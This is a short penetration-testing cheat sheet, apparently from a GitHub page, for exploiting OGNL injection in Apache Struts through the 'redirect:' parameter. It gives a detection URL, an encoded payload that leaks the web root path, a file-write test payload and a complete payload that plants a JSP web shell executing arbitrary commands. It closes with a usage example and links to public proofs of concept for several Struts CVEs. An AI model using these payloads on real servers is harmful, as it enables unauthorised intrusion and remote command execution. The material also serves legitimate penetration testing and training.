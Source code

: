 # Apahe Struts
**.action** and **.do** file are indications of Apache Structs 
On .do pages that you want to test, try browsing to 
*http://www.example.com/appFolder/index.do?redirect:${3&ast;4}*
Also try submitting as a POST request. 
If you are redirected to /12, then the application is vulnerable

**Get current directory:**
```
redirect%3A%24%7B%23a%3D%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27)%2C%23b%3D%23a.getRealPath(%22%2F%22)%2C%23c%3D%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27)%2C%0A%23c.getWriter().println(%23b)%2C%23c.getWriter().flush()%2C%23c.getWriter().close()%7D=
```

**Test ability to write to file:**
```
redirect:${new%20java.io.BufferedWriter(new%20java.io.FileWriter(%22<CURRENT_DIRECTORY_HERE>/alfejawk7feafs.txt%22)).append('123').close()} 
```
*Check if /alfejawk7feafs.txt exists*

**Write web shell:**
*Do not attempt this unless you can get the above file write to work*
```
redirect:${new%20java.io.BufferedWriter(new%20java.io.FileWriter("<CURRENT_DIRECTORY_HERE>/alfejawk7feafs.jsp")).append('<%25%40+page+import%3d"java.util.*,java.io.*"%25><HTML><BODY><FORM+METHOD%3d"GET"+NAME%3d"myform"+ACTION%3d""><INPUT+TYPE%3d"text"+NAME%3d"cmd"><INPUT+TYPE%3d"submit"+VALUE%3d"Send"></FORM><pre><%25out.println("Command%3a+"+%2b+request.getParameter("cmd")+%2b+"<BR>")%3bProcess+p+%3d+Runtime.getRuntime().exec(request.getParameter("cmd"))%3bOutputStream+os+%3d+p.getOutputStream()%3bInputStream+in+%3d+p.getInputStream()%3bDataInputStream+dis+%3d+new+DataInputStream(in)%3bString+disr+%3d+dis.readLine()%3bwhile+(+disr+!%3d+null+)+{out.println(disr)%3bdisr+%3d+dis.readLine()%3b}%25></pre></BODY></HTML>').close()}=
```
You should then be able to use the web shell: `/alfejawk7feafs.jsp?cmd=ls`


Additional resources
https://packetstormsecurity.com/files/141494/S2-45-poc.py.txt 
https://github.com/pwntester/S2-046-PoC 
RCE via XML parser 
https://github.com/mazen160/struts-pwn_CVE-2017-9805
